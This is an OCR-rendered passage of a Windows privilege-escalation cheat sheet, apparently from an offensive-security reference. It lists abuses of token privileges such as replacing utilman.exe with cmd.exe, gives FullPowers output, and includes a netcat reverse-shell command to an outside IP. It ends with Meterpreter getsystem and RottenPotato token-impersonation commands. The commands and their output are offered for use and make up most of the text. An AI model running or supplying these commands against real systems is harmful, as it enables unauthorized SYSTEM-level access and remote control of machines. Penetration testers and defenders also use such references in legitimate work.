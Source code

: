 | `SeRestore`            | **_Admin_** | **PowerShell**          | 1. Launch PowerShell/ISE with the SeRestore privilege present.<br>2. Enable the privilege with [Enable-SeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)).<br>3. Rename utilman.exe to utilman.old<br>4. Rename cmd.exe to utilman.exe<br>5. Lock the console and press Win+U | Attack may be detected by some AV software.<br> <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege.                                                                                                  |
| `SeTakeOwnership`      | **_Admin_** | **_Built-in commands_** | 1. `takeown.exe /f "%windir%\system32"`<br>2. `icalcs.exe "%windir%\system32" /grant "%username%":F`<br>3. Rename cmd.exe to utilman.exe<br>4. Lock the console and press Win+U                                                                                                                                                  | Attack may be detected by some AV software.<br> <br>Alternative method relies on replacing service binaries stored in "Program Files" using the same privilege.                                                                                                  |
| `SeTcb`                | **_Admin_** | 3rd party tool          | Manipulate tokens to have local admin rights included. May require SeImpersonate.<br> <br>To be verified.                                                                                                                                                                                                                        |                                                                                                                                                                                                                                                                  |

### Restore A Service Account's Privileges

> This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only.

```powershell
# https://github.com/itm4n/FullPowers

c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

### Meterpreter getsystem and alternatives

```powershell
meterpreter> getsystem
Tokenvator.exe getsystem cmd.exe
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe
psexec -s -i cmd.exe
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### RottenPotato (Token Impersonation)

Binary available at : https://github.com/foxglovesec/RottenPotato Binary
available at : https://github.com/breenmachine/RottenPotatoNG

```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```
